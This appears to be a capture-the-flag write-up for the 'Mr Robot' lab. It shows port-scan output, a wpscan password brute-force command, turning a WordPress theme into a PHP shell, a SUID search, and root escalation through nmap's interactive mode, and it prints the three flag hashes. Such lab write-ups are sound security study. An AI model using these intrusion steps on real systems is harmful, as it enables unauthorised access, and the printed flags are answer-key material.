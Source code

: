 
# Info Gathering
```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
|_SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
```


# machine

box is a machine with limited commands

![](https://i.imgur.com/hX3p3AC.png)


directory listing 



# key 1
![](https://i.imgur.com/ozd7xij.png)
and then there we go thats the first key

```
073403c8a58a1f80d943455fb30724b9
```

```
Cookie: s_cc=true; s_fid=2ED616C455EA7C74-325305B6F9BE78C5; s_nr=1702665025432; s_sq=%5B%5BB%5D%5D
```



---
```bash
wpscan –url IP_ADDRESS_OF_WEBSITE -U USER_NAME -P PATH_TO_WORDLIST
```
elliot:anypasswd (ER28-0652)

elliot@mrrobot.com
---

# users

![](https://i.imgur.com/OO7nlNR.png)

![](https://i.imgur.com/0UDcvXm.png)
looks like can do panel rce by modifying php from theme (admin needed)

by changing the code into a php shell

![](https://i.imgur.com/XVVw3fL.png)


i can successfully get a shell

![](https://i.imgur.com/lafqLti.png)

after getting shell i found out that im user daemon. i wanted to observe the home directory and found user named robot, i then checked and found the second key but had to decrypt the md5 first to access the user robot then extract the second key

![](https://i.imgur.com/9VjiMHT.png)

and here we go thats the second key
```
822c73956184f694993bede3eb39f959
```

after that i need to privesc

i must then run a command to find all the SUID/SGID executables on the vm which showed something <span style="color: red; font-weight: bold; font-size: larger;">SUS</span> ![AMOGOS | 50x50 ](https://cdn.pixabay.com/photo/2021/04/21/10/17/meme-6195988_1280.png)

<iframe width="200" height="150" src="https://www.youtube.com/embed/Regpv0xU3ZQ?si=yTur6dsgY5oNkOcc" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>


Message @0xSuper
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

as per given hint it showed "nmap" only 

![](https://i.imgur.com/C98sez8.png)

after researching, I went to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) to check the nmap sudo, and it showed that 

![](https://i.imgur.com/4YbDgRy.png)



after checking nmap's version it showed that its between these version so i ran the command 

![](https://i.imgur.com/iLCeGn2.png)


```bash
nmap --interactive
nmap> !sh
```

which returned that

![](https://i.imgur.com/wXNVL6J.png)


and successfully gained root access and got my third key which is 

```
04787ddef27c3dee1ee161b21670b4e4
```

---
#mr_robot #ctf #tryhackme


